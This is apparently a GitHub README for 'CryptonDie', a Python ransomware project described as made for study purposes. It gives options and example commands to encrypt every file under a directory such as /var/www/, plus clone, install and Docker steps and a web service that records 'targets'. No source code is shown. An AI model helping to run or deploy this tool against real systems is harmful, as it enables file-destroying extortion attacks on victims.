 # CryptonDie

<p align="center">
  <h3 align="center">CryptonDie</h3>
  <p align="center">CryptonDie is a ransomware developed for study purposes.</p>

  <p align="center">
    <a href="https://twitter.com/gmdutrax">
      <img src="https://img.shields.io/badge/twitter-@gmdutrax-blue.svg">
    </a>
  </p>
</p>

<hr>

### Options

```text
    --key       key used to encrypt and decrypt files, default is random string(recommended)
    --dir       Home directory for the attack, default is /
    --encrypt   Encrypt all files
    --decrypt   Decrypt all files
    --verbose   Active verbose mode, default is False

Example:
    python3 cryptondie.py --web-service http://127.0.0.1:5000 --dir /var/www/ --encrypt --verbose

```

### Web service endpoints

```
GET   - /targets              - list all targets (returns in JSON format)
GET   - /targets/<target_id>  - list one target by id (returns in JSON format)
POST  - /target/<target_id>   - create new target
```

<hr>

## how to run?

### Clonning repository

```
git clone https://github.com/gmdutra/cryptondie
```

### Install requirements

```
pip3 install -r requirements.txt
```

### Running web service

```
cd cryptondie/discovery
python3 service_discovery.py
```

### Running in Docker

```bash
docker build -t cryptondie .
docker run -it cryptondie /bin/bash
python cryptondie.py --web-service http://127.0.0.1:5000 --dir /var/www/ --encrypt --verbose
```

### which encryption is implemented?

```text
Advanced Encryption Standard
```

### Contact

```text
[+] Telegram:   @gmdutra
[+] Github:     https://github.com/gmdutra
[+] Twitter:    https://twitter.com/dtr0x80
[+] Blog:       https://gmdutra.github.io
```

<p align="center">
  <p align="center">chaos is order yet undeciphered.</p>
</p>

